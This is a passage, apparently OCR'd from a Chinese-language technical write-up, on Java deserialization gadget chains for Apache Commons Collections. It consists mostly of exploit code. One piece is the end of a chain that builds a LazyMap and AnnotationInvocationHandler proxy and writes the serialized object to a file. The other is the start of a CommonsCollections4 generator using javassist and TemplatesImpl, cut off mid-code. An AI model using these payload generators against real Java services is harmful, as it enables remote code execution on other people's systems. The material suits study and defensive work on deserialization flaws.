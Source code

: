 ```java
        constructor.setAccessible(true);
        HashMap hashMap = new HashMap<String, String>();
        Object lazyMap = constructor.newInstance(hashMap, chainedTransformer);

        constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler invo = (InvocationHandler) constructor.newInstance(Deprecated.class, lazyMap);
        Object proxy = Proxy.newProxyInstance(invo.getClass().getClassLoader(), new Class[]{Map.class}, invo);

        constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object obj = constructor.newInstance(Deprecated.class, proxy);

        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("out.bin"));
        oos.writeObject(obj);
        oos.close();
    }
}
```

## CommonsCollections4

这个与上面的 CommonsCollections2 接近, 区别是将 InvokerTransformer 替换为 InstantiateTransformer, 换汤不换药 + 1, 不再多做解释  

```java
package demo.rmb122;

import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;

import javax.xml.transform.Templates;
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CommonsCollections4 {
    public static class Placeholder {
    }

    public static void main(String[] args) throws Exception {
        String AbstractTranslet = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        String TemplatesImpl = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        String TrAXFilter = "com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter";

        ClassPool classPool = ClassPool.getDefault();
        classPool.insertClassPath(new ClassClassPath(Placeholder.class));
        classPool.insertClassPath(new ClassClassPath(Class.forName(AbstractTranslet)));

        CtClass placeholder = classPool.get(Placeholder.class.getName());
        placeholder.setSuperclass(classPool.get(Class.forName(AbstractTranslet).getName()));
```